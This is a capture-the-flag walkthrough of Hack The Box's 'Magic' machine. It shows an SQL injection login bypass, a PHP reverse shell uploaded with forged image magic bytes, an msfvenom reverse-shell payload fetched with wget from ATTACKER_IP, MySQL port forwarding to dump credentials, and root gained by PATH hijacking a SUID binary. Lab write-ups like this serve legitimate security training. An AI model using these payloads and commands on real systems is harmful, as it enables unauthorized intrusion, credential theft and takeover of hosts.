This box is rated medium difficulty on HTB. It involves us bypassing both a login page via SQL injection and a file upload filter by manipulating magic bytes to upload a shell. Once on the system, we discover MySQL login credentials which can be used to dump the database after port forwarding the service to our local machine. Finally, a vulnerable binary with the SUID bit set is prone to path injection, which we use to escalate privileges to root user.

## Scanning & Enumeration
First things first, I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.129.4.211 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 00:47 CST
Nmap scan report for 10.129.4.211
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Without credentials, there's not much we can do on that version of OpenSSH so I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the website.

Checking out the landing page shows an image gallery with a few strange pictures. Opening a few shows that they are stored under the `/images/uploads/` directory and then later rendered by the page. 



## Login Bypass with SQLi
There's also a login button that redirects us to a PHP page prompting for a username and password. Attempting to sign in using default credentials doesn't yield anything, however using special characters does something strange. Known bad passwords make the server send a pop up alert saying that the login has failed, but injecting a single quote into either field doesn't proc that alert.

I capture a POST request to this page and retest this theory so that I'm able to see the response and headers from the server. Nothing gets reflected to us, so we won't be able to enumerate the database, but we can still bypass the login page by supplying the username of admin and the password of `' OR 1=1-- -`.



## File Upload Bypass via Magic Bytes
Upon login, we see a singular function which lets us upload files to the main page's gallery. Testing to see if we can just supply PHP code throws an error saying that only JPG, JPEG & PNG filetypes are allowed.



Testing to see how the site identifies the file discloses that we can use an extension like `file.php.jpg`, meaning that it checks our trailing file extension and only allows it whenever it matches the list. Next, I attempt to upload [Pentestmonkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with the extension trick which makes the server send a funny alert.



So the site is definitely parsing the file data looking for valid MIME types and will only allow the file to pass if it contains a proper extension and starts/ends with valid image magic bytes. To bypass this in order to upload our shell, we can edit the beginning hex values of our file to contain the standard PNG/JPG magic bytes and trick the application into thinking that our file is an actual image.

Since we're changing the first four bytes of the file, make sure to add a few transmutable characters (usually four) to the start so that we're not breaking the shell code. Once that's taken care of just match the magic bytes to the files standard image ones using a tool like Hexeditor and upload it. The standard hex values for PNG files is `89 50 4E 47 0D 0A 1A 0A`, however a quick Google search will grant you results for any file.



Once that's properly uploaded, we can simply navigate to the /images/uploads/ directory that we found earlier to have the server execute our code to give us a shell as www-data. 

_Note: The box has a script that cleans up the uploads directory so if you can't get yours to execute, check the filename and reupload the shell._



## Privilege Escalation
Now that we have a shell on the system, we can start internal enumeration to escalate privileges. Checking either the `/home` directory or /etc/passwd` shows that there is one other user on the box besides root. Whenever I get a shell as a webserver, my mind goes to dumping the database or finding backup files since these type of accounts typically have limited access.

Since there was a login page on the site, maybe the database is stored with the HTML files or at least credentials for a MySQL server. Checking the Magic site's directory gives us a `db.php5` file containing a plaintext password for Theseus.



### Dumping MySQL Database
Those credentials didn't work to login over SSH, however they should for authentication to the MySQL database. The box doesn't have a MySQL client installed so we'll need to port forward it to our attacking machine so that we have access. Double checking the server with netstat shows that it is indeed running on port 3306.



To do so, I switch shells to a Meterpreter session which makes this process much easier as it will handle data transmission much more reliably and there aren't really any useful tools on the box do it manually.

```
#Creating ELF reverse shell with msfvenom
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=9003 -f elf > shell.elf

#Hosting an HTTP server to transport it to remote machine
python3 -m http.server 8000

#Grabbing reverse shell from local machine
wget http://ATTACKER_IP:8000/reverse.elf

#Giving it executable permissions
chmod +x reverse.elf
```

Once that is all said and done, we can forward all traffic from the MySQL server running on the remote box to our local machine.

```
meterpreter> portfwd add -L 127.0.0.1 -l 3306 -p 3306 -r 127.0.0.1
```

Now we can use MySQL to dump the database in hopes to find any relatively useful information for Theseus or Root user. We'll also need to specify the host and DBname when connecting.

```
mysql -h 127.0.0.1 -u theseus -p Magic
```



There is only one entry with a plaintext password for the admin user. It seems they've reused this for all platforms as it works to switch users to Theseus in our running shell. At this point we can grab the user flag under our home directory and focus on escalating privileges to root user. 

### Path Injection in Vulnerable Binary
Logins over SSH using passwords are disabled, so we'll either need to exploit scripts/binaries to escalate our privs or find a way to read their SSH private key. I noticed that we're apart of the users group which also had access to the sysinfo binary. Luckily for us, the SUID bit is set and it's owned by root.



I run an `ltrace` on it to see what system calls are being made and find that it fails to use secure/full file paths when executing four other binaries. That leaves it open to a path hijacking attack in which we host a malicious file in order to execute arbitrary commands as root.



In my case, I'll use the free binary as an example. We really only need to do a few simple things to carry out this attack. First is to create a malicious script inside of a writeable directory that will execute our command. Then, we must export that directory into our $PATH variable so that the system will check our current working directory first and execute that script as root. Finally, we can run the vulnerable binary to complete the process and we gain RCE with elevated privileges.

```
#Changing into a writeable directory
cd /tmp

#Creating bash clone script
echo '#!/bin/bash' > /tmp/free
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /tmp/free

#Making sure it's executable
chmod +x /tmp/free

#Forcing the binary to serach for free under /tmp first
export PATH=/tmp:$PATH

#Running the vulnerable binary
/bin/sysinfo

#Spawning root shell with bash clone
/tmp/bash -p
```

Using our cloned Bash binary to spawn a root shell and then grabbing the final flag under `/root` completes this challenge.



That's all y'all, this box was a fun one as manipulating magic bytes is a neat trick to have in your back pocket when exploiting file uploads. I hope this was helpful to anyone following along or stuck and happy hacking!
